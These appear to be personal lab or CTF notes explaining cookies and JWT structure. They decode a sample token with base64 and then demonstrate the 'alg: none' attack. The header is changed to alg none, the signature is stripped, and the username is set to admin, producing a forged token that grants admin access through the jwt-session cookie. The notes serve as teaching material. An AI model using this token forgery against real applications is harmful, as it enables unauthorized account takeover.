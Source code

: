 
![](Pasted%20image%2020241128131859.png)
# Introduction

Let's think of how web applications maintain sessions. Usually, when a user logs into an application, they will be assigned some sort of session token that will need to be saved on the browser for as long as the session lasts. This token will be repeated on each subsequent request so that the web application knows who we are. These session tokens can come in many forms but are usually assigned via cookies. **Cookies** are key-value pairs that a web application will store on the user's browser and that will be automatically repeated on each request to the website that issued them.

**JWTs** are very simple tokens that allow you to store key-value pairs on a token that provides integrity as part of the token. The idea is that you can generate tokens that you can give your users with the certainty that they won't be able to alter the key-value pairs and pass the integrity check. The structure of a JWT token is formed of 3 parts:

![](Pasted%20image%2020241128132102.png)

Notice that each of the 3 parts of the token is simply plaintext encoded with base64. You can use [this online tool](https://appdevtools.com/base64-encoder-decoder) to encode/decode base64. Try decoding the header and payload of the following token:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ.C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw`

```
┌─[lnxuser@redzone]─[/tmp]
└──╼ $echo eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 | base64 -d
{"typ":"JWT","alg":"HS256"}
```

```
┌─[lnxuser@redzone]─[/tmp]
└──╼ $echo eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ | base64 -d
{"username":"guest","exp":1665076836}
```

```
C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw - this string is hash of above 2.
```

Taking the JWT from before as an example, if we wanted to change the payload so that the username becomes "admin" and no signature check is done, we would have to decode the header and payload, modify them as needed, and encode them back. **Notice how we removed the signature part but kept the dot at the end**

1. Modify the header section of the token so that the `alg` header would contain the value `none`.
2. Remove the signature part.

![](Pasted%20image%2020241128132533.png)

Creating malicious JWT for admin

![](Pasted%20image%2020241128132730.png)
![](Pasted%20image%2020241128132836.png)

We get below JWT.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY1MDc2ODM2fQ.
```

Inserting this cookie in `jwt-session` grants admin access.

![](Pasted%20image%2020241128133413.png)